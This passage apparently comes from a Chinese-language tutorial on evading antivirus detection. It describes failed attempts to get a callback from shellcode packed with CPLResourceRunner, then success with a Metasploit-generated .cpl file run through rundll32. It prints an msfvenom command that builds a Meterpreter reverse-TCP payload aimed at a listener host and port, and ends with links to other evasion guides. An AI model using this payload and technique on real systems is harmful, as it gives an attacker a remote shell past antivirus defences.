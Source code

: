 不过经过测试，无法上线，没找出来具体原因。

后来用msf生成raw格式的shellcode，也用`CPLResourceRunner`进行处理，不过还是没法上线。

后来又测试了一下使用msf直接生成cpl文件，倒可以执行上线，使用rundll32.exe来执行。

```
msfvenom -p  windows/meterpreter/reverse_tcp lhost=10.211.55.2 lport=3333  -f dll  > shellcode.cpl
```

![80f9e60c168042073f3540e8d1bf7d18](images/2020.03-bypass-04/22.png)


# 4 参考资料

shellcode加载总结:`https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html`

记一则免杀技巧:`https://www.jianshu.com/p/965211afc5f9`

那些shellcode免杀总结：`https://xz.aliyun.com/t/7170`

免杀技巧:`https://blog.moofeng.cn/2019/04/18/%E8%AE%B0%E4%B8%80%E5%88%99%E5%85%8D%E6%9D%80%E6%8A%80%E5%B7%A7/index.html`  